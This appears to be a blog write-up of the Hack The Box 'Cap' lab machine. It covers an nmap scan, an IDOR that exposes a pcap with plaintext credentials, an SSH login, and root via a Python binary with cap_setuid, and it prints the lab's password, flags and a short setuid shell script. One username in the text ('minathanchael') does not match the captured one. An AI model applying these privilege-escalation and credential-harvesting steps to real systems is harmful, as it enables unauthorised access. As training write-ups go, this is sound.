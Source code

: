 ```yaml
---
title : "Hack The Box - Cap"
author: imdang 🤞🤞
date: 2024-11-12 11:33:00 +0800
categories: [Hackthebox, Hackthebox-Linux, Hackthebox-Easy]
tags: [nmap,gobuster,linpeas,python,OSCP]
---
```


<!-- ![image](https://user-images.githubusercontent.com/59029171/139866885-bc8556d4-7979-4d42-9d4e-027c0900f245.png) -->

<!-- **Node is about enumerating an Express NodeJS application to find an API endpoint that discloses the usernames and password hashes. To root the box is a simple buffer overflow and possible by three other unintended ways.** -->

---

# Recon
## Nmap

The first thing that I do is run nmap scan that show this results:
```console
┌──(kali㉿kali)-[~/htb/machine/cap]
└─$ nmap -sV -sC --min-rate=1000 -p- 10.10.10.245 -o nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 09:51 EST
Nmap scan report for 10.10.10.245
Host is up (0.24s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 12 Nov 2024 14:52:50 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 12 Nov 2024 14:52:44 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Tue, 12 Nov 2024 14:52:44 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=11/12%Time=67336BBB%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Tue,\x2012\x20Nov\x202024\x2014:52:44\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:019386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en
SF:\">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x2
SF:0\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\
SF:x20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"i
SF:mage/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\
SF:x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.cs
SF:s\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css
SF:/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"
SF:\x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20
SF:rel=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x2
SF:0\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stat
SF:ic/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOp
SF:tions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Tue
SF:,\x2012\x20Nov\x202024\x2014:52:44\x20GMT\r\nConnection:\x20close\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x
SF:20OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20
SF:\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bo
SF:dy>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20In
SF:valid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;
SF:RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest
SF:,189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Tue,\x2012\x20Nov\x202024\x2014:52:50\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2
SF:\x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found<
SF:/h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x2
SF:0server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x
SF:20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 226.45 seconds
```

From the nmap results, we can see that there is port 80 which is a web service that running on the server and on port 22 is SSH and port 21 is FTP.

## Website - TCP 80

Take a look in the website, that is a link to download pcap file and enable to IDOR in ```10.10.10.245/data/<id>```

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241112_cap_idor.png)

Take to download file from id 0 and use Wireshark to see the pcap file downloaded

In the pcap file from ID 0 see a username is ```nathan``` with password ```Buck3tH4TF0RM3!```

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241112_cap_wireshark.png)

# Exploit

## User

Now, try SSH with credentials ```minathanchael``` and password ```Buck3tH4TF0RM3!```, oh well it's success :)))

User flag: ```4ddf42b5d76fbebe51eeec3ce57df1ae```

# Privilege Escalation

## Linpeas

To start, i upload ```linpeas.sh``` and run. Read the report, we will see some special execute file in ```/usr/bin/python3.8```

The ```/usr/bin/python3.8``` is found to have ```cap_setuid``` and ```cap_net_bind_service``` , which isn't the default setting.

Read some doc relate to this, i found that ```CAP_SETUID``` allows the process to gain setuid privileges without the SUID bit set.

So write some python code like this

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

And run this python with ```/usr/bin/python3.8```

```shell
/usr/bin/python3.8 poc.py
```
And now, WE ARE ROOT !! 

Root flag: ```2ca0cd32ed3c0769783f3d9934b2ae46```

# Box Rooted 

![image](https://raw.githubusercontent.com/ficstkeyfx/ficstkeyfx.github.io/refs/heads/main/.github/images/20241112_cap_boxroot.png)

<!-- HTB Profile : [ficstkeyfx](https://app.hackthebox.com/profile/244565) -->

If you find my articles interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/0xStarlight"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me an OSCP?&emoji=&slug=0xStarlight&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>
